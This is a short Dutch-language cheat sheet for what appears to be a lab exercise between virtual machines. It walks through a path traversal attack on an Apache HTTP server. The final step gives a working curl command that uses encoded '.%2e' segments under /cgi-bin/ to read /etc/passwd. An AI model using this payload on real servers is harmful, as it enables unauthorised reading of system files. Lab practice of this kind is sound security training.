

# Cheat sheet aanval van Apache HTTP server path traversal

Voor het uitvoeren van de aanval van Apache HTTP server path traversal zijn de volgende stappen nodig:

Stap 1: Contolleer of de VM's met elkaar kunnen communiceren

```bash
ping <ip-van-de-server>
PING 192.168.0.254 (192.168.0.254) 56(84) bytes of data.
64 bytes from 192.168.0.254: icmp_seq=1 ttl=64 time=3.43 ms
64 bytes from 192.168.0.254: icmp_seq=2 ttl=64 time=0.419 ms
64 bytes from 192.168.0.254: icmp_seq=3 ttl=64 time=0.423 ms
```

Stap 2: Controleer of de Apache HTTP server draait op de server

Surf van de Kallio VM naar de Apache HTTP server VM en controleer of de server draait. Dit kan gedaan worden door in de browser het IP adres van de server in te voeren. Als de server draait, zou je een welkomstpagina moeten zien.



Stap 3: Path Traversal aanval uitvoeren

Gebruik de volgende curl command om de path traversal aanval uit te voeren:

```bash
curl -v --path-as-is http://192.168.0.145:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

Als je deze command uitvoert, zou je de inhoud van het bestand /etc/passwd moeten zien. Dit bestand bevat informatie over de gebruikers op het systeem.

```bash